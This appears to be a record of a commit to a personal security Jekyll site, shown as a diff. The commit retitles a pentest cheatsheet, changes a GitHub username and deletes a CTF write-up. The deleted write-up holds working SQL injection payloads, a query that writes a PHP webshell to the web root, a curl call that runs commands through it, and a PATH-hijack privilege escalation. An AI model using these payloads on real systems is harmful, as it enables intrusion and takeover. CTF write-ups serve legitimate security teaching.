

Before and after one commit to erik-dzibela/erik-dzibela.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide and 1400 px high, scrolled down 1099 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed lines change nothing that is shown.

Commit message:
Content Update

````diff
--- a/_cheatsheets/pentest-cheatsheet.md
+++ b/_cheatsheets/pentest-cheatsheet.md
@@ -1,8 +1,7 @@
 ---
 layout: post
-title: "pentest-cheatsheet"
+title: "pentesting cheatsheet"
 date: 2026-03-07
-tags: [recon, enumeration, exploitation, privesc, osint, active-directory]
 description: "A comprehensive pentesting reference covering everything from OSINT and recon through to post-exploitation and privilege escalation."
 ---
 
--- a/_config.yml
+++ b/_config.yml
@@ -5,7 +5,7 @@ baseurl: ""
 
 author:
   name: "r00t26"
-  github: "r00t26"
+  github: "erik-dzibela"
 
 # Collections
 collections:
--- a/_writeups/2024-03-15-sqli-to-rce.md
+++ /dev/null
@@ -1,64 +0,0 @@
----
-title: "SQL Injection to RCE"
-date: 2024-03-15
-event: "PicoCTF 2024"
-category: "web"
-difficulty: "Medium"
-points: 350
-solves: 142
-flag: "picoCTF{sql_2_rce_ez_mode_a1b2c3}"
-description: "Exploiting a blind SQL injection vulnerability to leak credentials, then chaining it with a file write primitive to achieve remote code execution."
-tags: [web, sqli, rce]
----
-
-## Overview
-
-The challenge presented a login portal running on MySQL. After initial recon we identified a classic blind SQL injection in the `username` parameter. The real fun started when we found file write privileges enabled via `secure_file_priv`.
-
-## Enumeration
-
-Starting with a basic boolean-based payload to confirm injectable:
-
-```sql
-' OR 1=1-- -
-```
-
-Response changes confirmed injection. Next, enumerate the database version:
-
-```sql
-' AND SUBSTRING(VERSION(),1,1)='5'-- -
-```
-
-## Exploitation
-
-With file write confirmed, we dropped a PHP webshell:
-
-```sql
-' UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
-```
-
-Then triggered RCE:
-
-```bash
-curl "http://target/shell.php?cmd=id"
-# uid=33(www-data) gid=33(www-data)
-```
-
-## Privilege Escalation
-
-From there, a quick SUID binary enum:
-
-```bash
-find / -perm -4000 2>/dev/null
-```
-
-Found a custom binary at `/opt/checker`. Reversed it with `strings` and noticed it called `system("cat /flag")` without a full path — classic PATH hijack.
-
-```bash
-export PATH=/tmp:$PATH
-echo '#!/bin/bash\ncat /root/flag.txt' > /tmp/cat
-chmod +x /tmp/cat
-/opt/checker
-```
-
-Flag captured.
````
